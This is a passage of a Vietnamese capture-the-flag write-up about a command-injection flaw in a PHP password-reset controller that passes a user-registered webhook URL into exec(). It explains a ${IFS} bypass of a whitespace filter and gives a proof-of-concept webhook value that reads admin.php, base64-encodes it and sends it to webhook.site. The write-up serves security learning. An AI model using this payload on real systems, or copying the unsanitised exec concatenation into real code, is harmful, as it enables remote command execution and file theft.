 ```php

class ResetController extends Reset
{

    private $uid;
    private $wh;
    private $tmpPass;

    public function __construct($uid)
    {
        $this->uid = $uid;
    }

    public function resetPassword()
    {
        $this->wh = $this->checkUser($this->uid);
        if (!$this->wh) {
            header("location: ../login.php?error=InvalidUser");
            exit();
        }

        $this->tmpPass = $this->tmpPwd($this->uid);

        exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");// Đây là đoạn code chúng ta để ý có khả năng để khai thác. Việc khai thác ở đây nguyên nhân có sự nối chuỗi và được thực hiện trong hàm exe từ đấy chúng ta có injection vào và thực hiện được command. Ở đây hàm đã nhận 2 đối số tmpPass chứa mật khẩu mới và wh chứa đường link webhook khi mình đăng kí

        return $this->tmpPass;
    }

}

?>
```

- Vậy để khai thác thành công chúng ta sẽ cần injection vào webhook để có thể thực hiện command. Và điều chúng ta lưu ý ở đây là bypass các hàm fillter. Như tôi đã giải thích ở trên hàm fillter thứ nhất sẽ loại bỏ các khoảng trắng việc này sẽ làm không thực hiện command thành công. Từ đấy, tôi bypass bằng biến ${IFS} sẽ có tác dụng coi như khoảng trắng khi thực thi lệnh. 

- POC khai thác như sau:
    - Bước 1: đăng kí với webhook -> https://webhook.site/bb21ee7d-0897-479a-8b03-5156e384f54e?c=$(cat${IFS}../admin.php|base64${IFS}-w0)
    - Bước 2: Thực hiện reset chúng ta sẽ đọc được file admin để đọc được flag.
